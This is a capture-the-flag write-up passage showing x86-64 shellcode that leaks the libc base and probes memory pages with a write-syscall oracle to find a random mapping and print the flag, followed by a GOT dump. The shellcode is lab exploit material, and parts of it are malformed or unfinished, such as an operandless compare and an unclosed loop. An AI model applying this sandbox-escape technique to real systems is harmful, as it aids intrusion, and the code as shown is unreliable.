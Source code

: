 The offset of that `/dev/urandom` `mmap` is relatively small. `mmap`s are page-aligned (page size is 0x1000), and 0x297000 / 0x1000 = 663.

On my computer the offset is the 663rd possible offset, which is kind of small.

So i wrote some shellcode to scan the first 1000 pages of the libc, checks if they're mapped, and if so it uses them as if they were the `/dev/urandom` map, and tries printing the flag.

I need to check if they're mapped because if i didn't my code would SEGFAULT.
The way i do this is by using a write syscall as an oracle.
If you try to write an unmapped buffer, the return value is a negative number, where normally it would be the number of bytes written.

Here's an example:

```assembly
mov rax, 1;
mov rsi, {sketchy_address};
mov rdi, 1;
mov rdx, 1;
syscall;

cmp rax;
jle unmapped_address_branch;

unmaped_address_branch:
// :(
mapped_address_branch:
// :)
```

Putting it all together, here's my final shellcode:

```assembly
// leak libc base
mov rax, {exe.got['printf']};
mov rax, [rax];
sub rax, {libc.sym['printf']};

mov r9, rax; // page being scanned
mov rcx, 1000; // stop counter
page_scanner_loop:
	mov r8, rcx; // rcx is overwritten by syscalls; preserve it

	// try to print this page to see if it's mapped
	mov rax, 1;
	mov rdi, 1;
	mov rsi, r9;
	mov rdx, 1;
	syscall;

	cmp rax, 0;
	jle unmapped_page_branch;

	// this is the mapped_page_branch
	
	// calculate the theoretical flag address
	mov rsi, [r9];
	and esi, 0xfffff000;
	add rsi, 0x1337000;

	// print it
	mov rax, 1;
	mov rdi, 1;
	mov rdx, 40;
	syscall;

```

[  0]:        0x7f03c9d06dc0    __libc_start_main
[  1]:                   0x0    __gmon_start__
[  2]:              0x403e10    UNKNOWN
[  3]:        0x7f03c9f642e0    UNKNOWN
[  4]:        0x7f03c9f3ec60    UNKNOWN
[  5]:        0x7f03c9f123d0    seccomp_init
[  6]:        0x7f03c9f137f0    seccomp_rule_add
[  7]:        0x7f03c9f12c40    seccomp_load
[  8]:        0x7f03c9dfbbc0    mmap
[  9]:        0x7f03c9d65060    setbuf
[ 10]:              0x401080    errx
[ 11]:        0x7f03c9d3d770    printf
[ 12]:        0x7f03c9df2100    close
[ 13]:        0x7f03c9df1980    read
[ 14]:        0x7f03c9df1690    open